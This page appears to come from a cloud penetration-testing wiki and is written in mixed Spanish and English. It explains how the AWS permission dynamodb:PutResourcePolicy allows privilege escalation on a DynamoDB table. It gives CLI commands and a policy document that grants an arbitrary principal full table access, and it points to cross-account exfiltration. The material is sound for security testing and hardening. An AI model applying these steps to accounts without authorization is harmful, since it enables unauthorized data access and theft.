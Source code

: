 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

For more info about dynamodb check:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, and optionally `dynamodb:GetResourcePolicy`

Desde marzo de 2024, AWS ofrece *políticas basadas en recursos* para DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Por lo tanto, si tienes el `dynamodb:PutResourcePolicy` para una tabla, puedes simplemente concederte a ti mismo u a cualquier otro principal acceso completo a la tabla.

Conceder el `dynamodb:PutResourcePolicy` a un principal aleatorio suele ocurrir por accidente, si los administradores piensan que conceder `dynamodb:Put*` solo permitiría al principal poner items en la base de datos —o si otorgaron ese conjunto de permisos antes de marzo de 2024...

Idealmente, también dispones de `dynamodb:GetResourcePolicy`, para no sobrescribir otros permisos potencialmente vitales, sino solo inyectar los permisos añadidos que necesites:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Si no puedes recuperar la política actual, utiliza esta que concede acceso completo a la tabla a tu principal:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Si necesitas personalizarla, aquí tienes una lista de todas las acciones posibles de DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Y aquí tienes una lista de todas las acciones que pueden permitirse mediante una política basada en recursos *Y cuáles de estas pueden usarse entre cuentas (¡piensa en exfiltración de datos!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Ahora, con el documento de política `policy.json` listo, aplica la política basada en recursos:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Now, deberías tener los permisos que necesitabas.

### Post Exploitation

Que yo sepa, **no existe otra forma directa de escalate privileges in AWS solo por tener algunos permisos de AWS `dynamodb`**. Puedes **leer información sensible** de las tablas (que podría contener credenciales de AWS) y **escribir información en las tablas** (lo que podría desencadenar otras vulnerabilidades, como lambda code injections...) pero todas estas opciones ya están consideradas en la **DynamoDB Post Exploitation page**:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: Leer datos abusando de data Streams

{{#include ../../../../banners/hacktricks-training.md}}
